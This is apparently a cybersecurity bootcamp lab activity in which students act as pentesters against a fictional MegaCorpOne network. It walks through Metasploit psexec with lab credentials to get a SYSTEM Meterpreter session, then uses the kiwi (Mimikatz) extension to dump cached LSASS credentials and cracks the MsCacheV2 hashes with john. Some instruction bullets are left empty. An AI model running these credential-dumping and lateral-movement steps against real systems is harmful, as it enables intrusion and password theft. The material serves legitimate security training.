

## Activity File: Credential Dumping

In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne. You have now been tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- 
	
3. Run the module with `run`

	- 

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 
	
     - [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.

	
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

8. You should now have the plaintext password to the new account, 'bbanner'.
                                                                                                                               
---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

